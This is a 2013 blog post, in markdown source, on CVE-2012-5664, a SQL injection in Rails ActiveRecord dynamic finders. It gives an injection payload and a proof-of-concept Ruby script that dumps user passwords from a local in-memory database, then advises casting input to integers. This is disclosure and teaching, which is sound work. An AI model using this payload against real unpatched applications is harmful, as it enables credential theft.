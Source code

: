 ```yaml
---
layout: post
title: "CVE-2012-5664: Sql Injection on Rails... again"
date: 2013-01-04 09:00
comments: true
published: true
featured: false
categories: breakers sql-injection rails ruby-on-rails activerecord cve-2012-5664 ruby patch orm mysql postgresql
thumb: rails.png
level:
hn: http://news.ycombinator.com/item?id=5007689
rd: http://redd.it/15y8qg
---
```


2013 is well promising for application security. Two days ago [Aaron Patterson](https://groups.google.com/forum/?fromgroups=#!topic/rubyonrails-security/DCNTNp_qjFM),
a [rails](http://rubyonrails.com) core member announced a [SQL Injection](https://www.owasp.org/index.php/SQL_Injection) vulnerability for
ActiveRecord ORM included in Rails framework.

Last [June](http://armoredcode.com/blog/cve-2012-2661-sqlinjection-on-rails/) we talked about a similiar vulnerability affecting ActiveRecord.

<!-- more -->

## Dynamic finders

The vulnerability is in ORM resource [dynamic finder methods](http://guides.rubyonrails.org/active_record_querying.html#dynamic-finders). 

Carefully crafted requests can be used to turn a dynamic finder method
parameter into a query scope.

Let us suppose you have a User model with two fields: an email and a password.
We also suppose that our code will take an id parameter from the outside and
using it to retrieve a user from the backend.

You can retrieve a user with a given id with a call like this one:

``` ruby ActiveRecord find_by_id
  u = User.find_by_id(params[:id])
``` 

The find\_by\_id method is not explicity declared by the User model, it's
dynamically created by ActiveRecord as well the methods:

* find\_by\_email
* find\_by\_password

## Exploiting it

If the parameter id passed to the dynamic find\_by\_id method, contains an Hash
this is used as options to the SELECT statement instead of being part of the
WHERE clause.

``` ruby the difference between a regular call and the attack
User.find_by_id(1) # REGULAR CALL => SELECT "users".* FROM "users" WHERE "users"."id" = 1 LIMIT 1
User.find_by_id({:select =>"* from users where id=4 --"}) # INJECTION => SELECT * from users where id=4 -- FROM "users" WHERE "users"."id" IS NULL LIMIT 1
``` 

This very trivial ruby script shows an in memory SQLite3 database managed with ActiveRecord as ORM.

``` ruby cve-2012-5664.rb
#!/usr/bin/env ruby

require 'active_record'
require 'logger'

ActiveRecord::Base.logger = Logger.new(STDERR)

ActiveRecord::Base.establish_connection(
    :adapter => "sqlite3",
    :database  => ":memory:"
)

ActiveRecord::Schema.define do
    create_table :users do |table|
        table.column :email, :string
        table.column :password, :string
    end
end

class User < ActiveRecord::Base
end

User.create(:email=>'admin_email', :password=>'admin_pwd')
User.create(:email=>'foo_email', :password=>'foo_pwd')
User.create(:email=>'bar_email', :password=>'bar_pwd')
User.create(:email=>'vuln_email', :password=>'vuln_pwd')

puts "Using ActiveRecord #{ActiveRecord::VERSION::STRING}"
puts "Exploiting find_by_id"

100.times do  |i|
  u = User.find_by_id({:select =>"* from users where id=#{i} --"})
  puts "Password for user with id #{i} is: #{u.password}" unless u.nil?
end
``` 

## The old fashioned defensive programming practice

ActiveRecord dynamic finders don't care about the input you pass them. Of
course it could be up to your application to properly sanitize the input
instead of passing params directly to find\_by\_id method.

I rather prefer this approach since your application knows exactly the meaning
of that line of code.

If you want your code to be robust against SQL Injection you must sanitize your input before moving forth. 

If you need to call find\_by\_id, the parameter **must** be an integer
identifier, so your approach would be explicitly casting to an Integer object.

``` ruby sanitize your find_by_id
sanitized_id = params[:id] # you have to consider the value tampered here

begin
  sanitized_id = sanitized_id.to_i
  # make your business logic specific choice here.
  #   * Can an id be negative?
  #   * Can an id be 0?
  #   * Have you got some particular constraint about ids? (e.g. valid ids are between 500 and 1200)
  sanitized_id = nil if sanitized_id <= 0
  sanitized_id = nil unless ( sanitized_id >= 500 and sanitized_id <= 1200)
rescue NoMethodError 
  sanitized_id = nil
end

u = User.find_by_id(sanitized_id)

# Do your stuff

...

``` 

Of course this is just an example showing a security aware approach when
reading a parameter that you want to manage like an Integer before using it in
your ORM of choice.

Do you think adding some security checks break your agile workout? Do you think
it's just an unnecessary step adding latency to your _fast and furious_
website?

You may want to think it twice before answering. My point of view is that for
sentive parameters read from HTTP request you have to carefully handle it
before passing to backend.

## Off by one

On [Hacker news](http://news.ycombinator.com/item?id=4999406) you can find some
comments about recent [Github security issue](http://phenoelit.org/blog/archives/2012/12/21/let_me_github_that_for_you/index.html)
exploiting Rails using this SQL Injection to override some popular Rails
authentication framework.

On [Phusion blog](http://blog.phusion.nl/2013/01/03/rails-sql-injection-vulnerability-hold-your-horses-here-are-the-facts/#.UObCq4njk2Z)
a more detailed and security aware dissertion was made in order to explain that
there is of course a problem in the dynamic finder methods for ActiveRecord but
exploiting it it's a very hard task. And I agree with it.

The main problem looking at [the patch](https://rubyonrails-security.googlegroups.com/attach/23daa048baf28b64/3-2-dynamic_finder_injection.patch?view=1&part=5)
is that in my opinion, it solves *this* problem but it doesn't make a solid
framework for input validation before building the query.

Adding your web application code to some positive filtering for the parameters you read helps you in:

* be transparent about the security model of your underlying framework
* be confident that input will fit what you expect from the user with ad hoc controls

The overhead in execution time can be, of course, an issue for impatient
developers but the tradeoff between being compromised and having a couple of if
statements to be executed can be a well tolerated solution.

What do you think about it? Is defensive programming a solution or just a redundant piece of code?
Tell me your thoughts.
